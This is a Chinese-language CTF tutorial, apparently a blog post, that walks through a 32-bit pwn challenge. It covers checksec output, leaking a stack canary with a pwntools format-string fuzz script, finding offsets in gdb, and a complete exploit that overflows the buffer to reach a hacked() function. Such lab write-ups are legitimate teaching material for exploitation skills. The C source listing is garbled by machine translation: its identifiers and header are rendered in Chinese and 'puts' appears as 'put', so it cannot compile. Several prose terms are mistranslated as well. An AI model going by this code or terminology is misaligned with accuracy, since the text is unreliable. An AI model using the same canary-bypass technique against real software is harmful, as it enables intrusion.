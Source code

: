﻿简介
“pwn”这个词的起源以及它被广泛普遍使用的原因，源自于魔兽争霸某段消息上设计师的口头拼错而造成的，语义的词词应该是“own”这个词，因为'p' 与 'o' 在标准中文键盘上的位置是相邻的，PWN 也是一个黑客语法的俚语词，是指攻破设备或者系统。成功发音类似“砰”，对黑客而言，这就是实施黑客攻击的声音，而在ctf比赛里，pwn是对二进制漏洞的利用

下载这个github库，进入10文件夹
````
https://github.com/Crypto-Cat/CTF/tree/main/pwn/binary_exploitation_101
````
#获取文件信息
使用checksec工具可以查看程序更详细的信息

![这里插入图片描述] ( https://img-blog.csdnimg.cn/c5ee91a3f5d34d7a9ad07ca0210cee39.png )

从上到下依次是：
````
32位节目
部分RELRO，基本上所有程序都默认的都有这个
开启了栈保护
启用了数据防护执行，我们不能在堆栈中执行代码
没有启用填充防护饼
````
Canary是为了避免程序屏幕溢出的一个保护机制，他会在堆栈中插入一个值，当函数返回时，程序会检查该值是否被更改，以确定程序是否发生了屏幕溢出

查看程序来源代码

![这里插入图片描述] ( https://img-blog.csdnimg.cn/713af36165484279982d2904888c4ee4.png )

````
#include <stdio.h>
#include <字符串.h>

void hacked() { //自定义hacked模块
    put("等等，你是怎么进来的？！"); //输出内容
}

void vuln() { //自定义vuln模块
    字符像素[64]；//定义像素像素，焦点为64个字符

    put(“你永远无法击败我最先进的堆栈保护器！”); //输出内容
    获取（枢纽）；//获取我们的输入
    printf( 弧度 ); // 输出我们的输入

    put("\n谁说 gets() 很危险？祝你的 BOF 攻击好运：P"); //输出字符
    获取（枢纽）；//获取再次输入
}

int main() {
    漏洞（）；//调用vuln模块
}
````


我们需要让程序执行破解模块的内容，要控制程序的返回地址，然后我们用ghidra打开程序，转到主函数的位置

![这里插入图片描述] ( https://img-blog.csdnimg.cn/8f22cb3997f646309a7c32423553a38e.png )



![在这里插入图片描述](https://img-blog.csdnimg.cn/0023823974d148d48a7b435443a3bf7a.png)

这里就是canary的代码，如果canary值改变了，就会触发防护

# fuzz
因为程序执行了printf函数，我们可以写一个小脚本，让程序泄露堆栈中的值


```
from pwn import *

elf = context.binary = ELF('./canary', checksec=False)   //获取程序详细信息
for i in range(100):   //测试100个地址
    try:
        p = process(level='error')   //创建进程
        p.sendline('%{}$p'.format(i).encode())   //发送指定的字符串，将第n个指针打印为字符串
        p.recvline()   //接收程序输出
        result = p.recvline().decode()   
        if result:   //如果堆栈中的值不为空就输出
            print(str(i) + ': ' + str(result).strip())
    except EOFError:
        pass
```

多运行几次脚本，可以看到这里泄露的很多值

![在这里插入图片描述](https://img-blog.csdnimg.cn/99dac3ca676f44bc985919c944554108.png)

# 动态调试

使用gdb打开程序，然后查看程序里调用的函数
```
info functions
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/f3c4a52071dc4311a8b819dcdd94822d.png)

然后查看vuln函数的汇编代码
```
disassemble vuln
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/a3da3e1657a04123904c8459a7da4816.png)

我们在调用printf函数的地方下一个断点，然后运行程序
```
b *0x0804921f
run
```

输入canary查看canary的偏移量


![在这里插入图片描述](https://img-blog.csdnimg.cn/6d8de25307ae448f9f68d32886534eaf.png)

然后我们看看堆栈里的值
```
x/100x $esp
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/ac91648330bb4ae6a4def4209af5853c.png)


从第一个开始，canary的偏移量在第24个，但是偏移量是从0开始的，所以在第23个，重新运行刚刚那个fuzz脚本

![在这里插入图片描述](https://img-blog.csdnimg.cn/fe636d45adbc458b99732b141d3a2511.png)

堆栈中第23个就是canary的值，我们保证让他不变即可

# pwntools
![在这里插入图片描述](https://img-blog.csdnimg.cn/2ad748d67bbb451f95a698e2b5e587bd.png)

通过ghidra分析程序可以知道，buffer的缓冲区是64个字符

![在这里插入图片描述](https://img-blog.csdnimg.cn/ec70649ef1b6413ba4d77cb893eb5e61.png)

在汇编界面，我们可以看到buffer的缓冲区区间，是64个字符，但是这里的栈有-0x50的空间，我们转换一下

![在这里插入图片描述](https://img-blog.csdnimg.cn/9b778ba14bb34347a999f889f8c3f792.png)

也就是我们要覆盖到程序的返回地址，buffer已知的缓冲区区间64+canary的值4+12个垃圾字符=80
```
64 + 4 + 12 = 80
垃圾字符 + canary + 垃圾字符 + hacked函数地址
```
然后我们就可以开始写脚本了

```
from pwn import *

exe = './canary'
elf = context.binary = ELF(exe, checksec=False)   //自动获取程序的详细信息

io = process("./canary")   //启动程序
offset = 64   //buffer函数的缓冲区区间
io.sendlineafter(b'!', '%{}$p'.format(23).encode())  //获取我们刚刚fuzz泄露的第23个canary的值
io.recvline()   //获取程序输出
canary = int(io.recvline().strip(), 16)  //将泄露的地址以整数形式存入canary变量中

payload = flat([   
    offset * b'A',   //buffer函数的缓冲区区间
    canary,  //canary的值
    12 * b'A',   //覆盖到返回指针
    elf.symbols.hacked  //跳转到hacked函数地址
])

io.sendlineafter(b':P', payload)   //当程序输出：P时发送payload
io.interactive()   //获取交互
```
运行脚本，成功破解程序

![在这里插入图片描述](https://img-blog.csdnimg.cn/1edd306fb4934b3ba0b7f8ce591fbf84.png)




